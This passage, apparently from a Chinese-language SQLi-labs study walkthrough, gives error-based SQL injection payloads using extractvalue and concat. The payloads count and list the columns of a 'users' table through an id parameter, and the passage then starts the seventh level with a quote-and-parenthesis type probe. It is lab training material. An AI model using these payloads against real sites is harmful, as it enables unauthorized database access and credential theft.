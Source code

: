 ![image-20230830220455834](./SQLi_labs.assets/image-20230830220455834.png)

获取字段

```sql
?id=1" and extractvalue(1,concat(0x7e,(select count(column_name) from information_schema.columns where table_schema=database()  and table_name='users' ),0x7e))    --+   
```

username字段

```sql
?id=1" and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database()  and table_name='users' limit 1,1 ),0x7e))    --+   
```



password字段



```sql
?id=1" and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database()  and table_name='users' limit 2,1 ),0x7e))    --+   
```

# 第七关

判断类型

```
?id=1')  --+
```
